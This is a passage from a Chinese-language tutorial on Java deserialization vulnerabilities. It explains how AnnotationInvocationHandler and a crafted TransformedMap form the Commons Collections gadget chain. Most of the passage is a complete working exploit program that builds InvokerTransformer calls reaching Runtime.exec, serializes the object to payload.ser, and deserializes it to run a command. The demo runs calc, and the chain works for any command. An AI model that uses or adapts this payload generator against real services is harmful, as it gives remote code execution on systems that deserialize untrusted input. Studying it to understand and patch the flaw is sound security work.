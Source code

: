 可以注意到 `memberValue` 是 `AnnotationInvocationHandler` 类中类型声明为 `Map<String, Object>` 的成员变量，刚好和之前构造的 `TransformedMap` 类型相符，因此我们可以通过 Java 的反射机制动态的获取 `AnnotationInvocationHandler` 类，使用精心构造好的 `TransformedMap` 作为它的实例化参数，然后将实例化的 `AnnotationInvocationHandler` 进行序列化得到二进制数据，最后传递给具有相应环境的序列化数据交互接口使之触发命令执行的 Gadget。利用测试代码如下：

```java
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

public class CommonsCollectionPayload {
    public static void main(String[] args) throws Exception {
        /*
         * Runtime.getRuntime().exec("calc");
         */
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        Map inMap = new HashMap();
        inMap.put("key", "value");
        Map outMap = TransformedMap.decorate(inMap, null, chainedTransformer);

        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cls.getDeclaredConstructor(new Class[] { Class.class, Map.class });
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(new Object[] { Retention.class, outMap });
        FileOutputStream fos = new FileOutputStream("payload.ser");
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(instance);
        oos.flush();
        oos.close();

        FileInputStream fis = new FileInputStream("payload.ser");
        ObjectInputStream ois = new ObjectInputStream(fis);
        // 触发代码执行
        Object newObj = ois.readObject();
        ois.close();
    }
}
```
